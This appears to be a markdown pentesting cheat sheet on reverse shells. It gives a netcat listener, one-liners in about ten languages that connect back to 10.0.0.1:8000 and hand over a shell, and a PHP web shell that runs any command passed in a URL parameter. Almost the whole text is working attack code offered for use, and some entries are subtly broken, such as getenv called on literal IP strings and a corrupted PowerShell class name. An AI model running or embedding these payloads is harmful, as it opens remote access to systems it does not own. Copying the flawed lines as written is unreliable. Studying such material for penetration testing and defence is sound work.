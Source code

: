 # Reverse shells

> A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host.

## Listener

### Netcat

```shell
nc -lvnp 8000
```

## Reverse shells

> Note: change IP 10.0.0.1 and port 8000 for the preferred one.

### Bash

```shell
bash -i >& /dev/tcp/10.0.0.1/8000 0>&1
```

### Perl

```shell
perl -e 'use Socket;$i="10.0.0.1";$p=8000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python 2

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```shell
python -c 'import sys,socket,os,pty;s=socket.socket() s.connect((os.getenv("10.0.0.1"),int(os.getenv("8000")))) [os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")'
```

### Python 3

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### Nodejs

```shell
require('child_process').exec('nc -e sh 10.0.0.1 8000')
```

### PHP

```shell
php -r '$sock=fsockopen("10.0.0.1",8000);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```shell
php -r '$sock=fsockopen("10.0.0.1",8000);passthru("sh <&3 >&3 2>&3");'
```

```shell
php -r '$sock=fsockopen("10.0.0.1",8000);popen("sh <&3 >&3 2>&3", "r");'
```

```shell
php -r '$sock=fsockopen("10.0.0.1",8000);system("sh <&3 >&3 2>&3");'
```

```shell
php -r '$sock=fsockopen(getenv("10.0.0.1"),getenv("8000"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

```shell
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="shell" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

### Ruby

```shell
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",8000).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```shell
nc -e /bin/sh 10.0.0.1 8000
```

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8000 >/tmp/f
```

### Java

```shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Powershell

```shell
powershell%20-nop%20-c%20%22$client%20=%20New-Object%20System.Net.Sockets.TCPClient('10.0.0.1',8000);$stream%20=%20$client.GetStream();%5Bbyte%5B%5D%5D$bytes%20=%200..65535%7C%25%7B0%7D;while(($i%20=%20$stream.Read($bytes,%200,%20$bytes.Length))%20-ne%200)%7B;$data%20=%20(New-Object%20-TypeName%20System.shell.ASCIIEncoding).GetString($bytes,0,%20$i);$sendback%20=%20(iex%20$data%202%3E&1%20%7C%20Out-String%20);$sendback2%20=%20$sendback%20+%20'PS%20'%20+%20(pwd).Path%20+%20'%3E%20';$sendbyte%20=%20(%5Bshell.encoding%5D::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()%7D;$client.Close()%22
```

### Telnet

```shell
TF=$(mktemp -u); mkfifo $TF && telnet 10.0.0.1 8000 0<$TF | /bin/sh 1>$TF
```

## 📚 References

* [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
* [netsparker.com/blog/web-security/understanding-reverse-shells/](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)
* [revshells.com](https://www.revshells.com/)

